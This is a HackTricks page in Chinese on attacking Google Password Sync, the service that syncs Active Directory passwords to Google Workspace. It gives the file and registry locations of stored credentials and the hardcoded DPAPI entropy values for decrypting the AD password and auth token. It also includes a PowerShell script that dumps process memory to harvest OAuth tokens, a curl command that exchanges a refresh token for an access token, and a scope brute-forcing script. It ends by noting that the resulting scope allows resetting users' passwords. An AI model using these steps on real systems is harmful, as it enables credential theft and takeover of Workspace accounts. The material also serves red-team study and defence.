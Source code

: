 # GPS - Google Password Sync

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过提交 PR 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库。

</details>
{% endhint %}

## 基本信息

这是 Google 提供的二进制文件和服务，用于**保持用户在 AD 和 Workspace 之间的密码同步**。每当用户在 AD 中更改密码时，它会被设置到 Google。

它安装在 `C:\Program Files\Google\Password Sync`，您可以在此找到用于配置的二进制文件 `PasswordSync.exe` 和将继续运行的 `password_sync_service.exe`（服务）。

### GPS - 配置

要配置此二进制文件（和服务），需要**授予其对 Workspace 中超级管理员主体的访问权限**：

* 通过 **OAuth** 登录 Google，然后它会**在注册表中存储一个令牌（加密）**
* 仅在具有 GUI 的域控制器上可用
* 提供一些来自 GCP 的 **服务账户凭据**（json 文件），并具有**管理 Workspace 用户**的权限
* 非常糟糕的主意，因为这些凭据永不过期，可能会被滥用
* 非常糟糕的主意是给予 SA 对 Workspace 的访问权限，因为 SA 可能在 GCP 中被攻破，并且可能会转向 Workspace
* Google 要求在没有 GUI 的域控制下使用
* 这些凭据也存储在注册表中

关于 AD，可以指示它使用当前的**应用程序上下文、匿名或某些特定凭据**。如果选择凭据选项，**用户名**将存储在**磁盘**中的一个文件内，**密码**是**加密**并存储在**注册表**中。

### GPS - 从磁盘转储密码和令牌

{% hint style="success" %}
请注意 [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) 能够检测到 **GPS**，获取有关配置的信息，甚至**解密密码和令牌**。
{% endhint %}

在文件 **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** 中，可以找到部分配置，例如配置的 AD 的 **`baseDN`** 和正在使用的 **`username`** 的凭据。

在注册表 **`HKLM\Software\Google\Google Apps Password Sync`** 中，可以找到 **加密的刷新令牌** 和 **加密的密码**（如果有的话）。此外，如果使用的是某些 **SA 凭据**，也可以在该注册表地址中找到这些加密的凭据。该注册表中的 **值** 仅对 **管理员** 可访问。

加密的 **密码**（如果有的话）在键 **`ADPassword`** 中，并使用 **`CryptProtectData`** API 进行加密。要解密它，您需要是配置密码同步的同一用户，并在使用 **`CryptUnprotectData`** 时使用此 **熵**：`byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

加密的令牌（如果有的话）在键 **`AuthToken`** 中，并使用 **`CryptProtectData`** API 进行加密。要解密它，您需要是配置密码同步的同一用户，并在使用 **`CryptUnprotectData`** 时使用此 **熵**：`byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
此外，它还使用字典 **`0123456789abcdefghijklmnopqrstv`** 进行 base32hex 编码。

熵值是通过使用该工具找到的。它被配置为监控对 **`CryptUnprotectData`** 和 **`CryptProtectData`** 的调用，然后该工具被用来启动和监控 `PasswordSync.exe`，该工具将在开始时解密配置的密码和身份验证令牌，并将**显示用于这两种情况的熵值**：

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

请注意，也可以在对这些 API 的调用的输入或输出中查看 **解密** 的值（以防 Winpeas 在某个时候停止工作）。

如果密码同步是**使用 SA 凭据配置的**，它也将存储在注册表 **`HKLM\Software\Google\Google Apps Password Sync`** 中的键内。

### GPS - 从内存转储令牌

与 GCPW 一样，可以转储 `PasswordSync.exe` 和 `password_sync_service.exe` 进程的内存，您将能够找到刷新和访问令牌（如果它们已经生成）。\
我想您也可以找到配置的 AD 凭据。

<details>

<summary>转储 <code>PasswordSync.exe</code> 和 <code>password_sync_service.exe</code> 进程并搜索令牌</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - 从刷新令牌生成访问令牌

使用刷新令牌，可以使用它以及以下命令中指定的客户端ID和客户端密钥生成访问令牌：
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
请注意，即使拥有刷新令牌，也无法请求访问令牌的任何范围，因为您只能请求**由生成访问令牌的应用程序支持的范围**。

此外，刷新令牌在每个应用程序中都不是有效的。
{% endhint %}

默认情况下，GPS 作为用户不会对每个可能的 OAuth 范围具有访问权限，因此使用以下脚本，我们可以找到可以与 `refresh_token` 一起使用以生成 `access_token` 的范围：

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

这是我在撰写时得到的输出：
```
https://www.googleapis.com/auth/admin.directory.user
```
哪一个是你不指明任何范围时得到的。

{% hint style="danger" %}
在这个范围内，你可以**修改现有用户的密码以提升权限**。
{% endhint %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
